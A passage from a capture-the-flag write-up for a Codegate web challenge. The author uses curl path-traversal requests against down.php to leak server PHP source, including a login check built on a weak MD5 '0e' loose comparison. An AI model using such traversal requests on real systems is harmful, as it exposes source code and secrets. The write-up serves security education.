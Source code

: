 Welp thats no use. But what about down.php, what if we try other files. Well as luck may have it it works:

```
root@kali:~/codegate/web/pizza# curl -L 'http://175.119.158. 137:9242/f00885da9ad9ad5fcccaa8fc1217e3ae/down.php?fn=down.php'

    if(isset($_GET['fn']))
    {
        $filename = $_GET['fn'];
        $path = './upfile/' . $filename;

        Header("Content-type: application/octet-stream");
        Header("Content-Length: " . filesize($path));
        Header("Content-Disposition: attachment; filename=$filename");
        Header("Cache-Control: no-cache");

        if(is_file($path))
        {
            $fp = fopen($path, "r");
            if(!fpassthru($fp))
            fclose($fp);
        }
    }
?>

```

We try and leak other files and find that the rest of the site lives in one directory up. We find the login source code here:

```
root@kali:~/codegate/web/pizza# curl -L 'http://175.119.158. 137:9242/f00885da9ad9ad5fcccaa8fc1217e3ae/down.php?fn=../login_ck.php'
<?php
    include "./lib/for_flag.php";
    include "./lib/lib.php";

    $user = mysql_real_escape_string($_POST['user']);
    $pass = mysql_real_escape_string($_POST['pass']);
    $token = $_POST['token'];

    $que = "select user from login where user='{$user}' and pass=md5('{$pass}')";
    $result = mysql_query($que);
    $row = mysql_fetch_array($result);

    if($row['user'] == 'Admin')
    {
        if(md5("blog".$token) == '0e689047178306969035064392896674')
        {
            echo "good job !!!
FLAG : "</span>.$flag."</b>";
        }
...
```
